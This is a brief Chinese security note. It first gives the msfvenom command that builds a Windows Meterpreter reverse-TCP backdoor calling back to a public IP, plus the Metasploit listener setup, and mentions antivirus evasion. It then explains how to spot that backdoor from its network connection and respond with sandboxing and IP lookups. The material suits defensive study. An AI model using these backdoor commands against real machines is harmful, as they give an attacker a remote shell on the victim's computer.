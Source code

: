 ## **MSF后门程序**
MSF端生成反向tcpshell的后门exe
```
msfconsole  

msfvenom -p windows/meterpreter/reverse_tcp lhost=47.94.236.117 lport=6666 -f exe -o shell.exe
```
MSF服务端监听
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 6666
run
```
此时目标机运行exe。
一般这个exe做了免杀，wf和普通杀毒软件无法识别。


^
## **基于流量分析MSF后门**
分析：
查看进程对内对外的网络连接。
工具：
火绒剑等。

点击网络，可以看到进程程序列表。
```
shell.exe   进程ID628   无数字签名未知文件  协议TCP  内部192.168.1.12:50103  外部47.94.236.117:6666  状态TS_established
```
其中无签名，对外连接异常，可知此程序有问题。
杀死进程，将程序上传沙箱分析，将对外IP用情报平台分析。


